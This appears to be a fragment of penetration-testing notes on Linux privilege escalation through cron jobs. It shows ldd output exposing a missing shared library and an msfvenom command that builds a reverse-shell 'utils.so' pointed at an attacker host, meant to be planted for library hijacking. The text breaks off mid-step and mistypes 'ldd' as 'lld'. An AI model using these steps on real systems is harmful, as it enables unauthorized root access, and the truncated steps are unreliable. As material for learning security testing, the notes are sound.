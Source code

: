 [Linux Privilege Escalation by Exploiting Cronjobs - Hacking Articles](https://www.hackingarticles.in/linux-privilege-escalation-by-exploiting-cron-jobs/)


# Guide

1. If a compiled program is being run using a CRON job, 





# Examples

## Compiled Program

1. Run `lld` on the program

```
linux-vdso.so.1 =>  (0x00007ffd61a5c000)
        utils.so => not found
        libc.so.6 => /lib64/libc.so.6 (0x00007f717136a000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f7171738000)
```

2. Generate a malicious shared object file named `utils.so` and place it in the `/usr/local/lib/dev directory`.

```
msfvenom -p linux/x64/shell_reverse_tcp -f elf-so -o utils.so LHOST=kali 
```

3. Link t